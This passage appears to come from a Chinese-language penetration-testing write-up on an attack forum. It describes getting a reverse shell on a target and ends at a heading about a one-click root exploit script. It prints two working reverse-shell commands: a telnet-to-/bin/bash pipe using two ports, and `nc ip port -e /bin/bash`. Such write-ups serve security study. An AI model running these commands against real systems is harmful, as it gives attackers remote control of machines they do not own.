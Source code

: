 [![img](../../.vuepress/public/assets/img/attach-7f5958c23aba33cd947fd89d36d8cb2d896380ff.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-7f5958c23aba33cd947fd89d36d8cb2d896380ff.png)

网络没问题，问题就简单了。更换不同的反弹shell命令试试。换了几种方式失败后，最终通过`telnet ip port1 | /bin/bash | telnet ip port2`成功反弹。真是激动人心的时刻。

这个反弹的原理就是监听两个端口，端口1的连接负责输入命令，端口2的连接接收输出。当然在后续的测试中，这个尽管可以成功，但是还有网络因素导致输出的端口连接失败的情况。但是这里影响不大，可以输入`nc ip port3 -e /bin/bash` 反弹回显端口。

[![img](../../.vuepress/public/assets/img/attach-f1654614c139f6adf8743615be8b29d40f8602de.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-f1654614c139f6adf8743615be8b29d40f8602de.png)

### 一键root之漏洞脚本开发
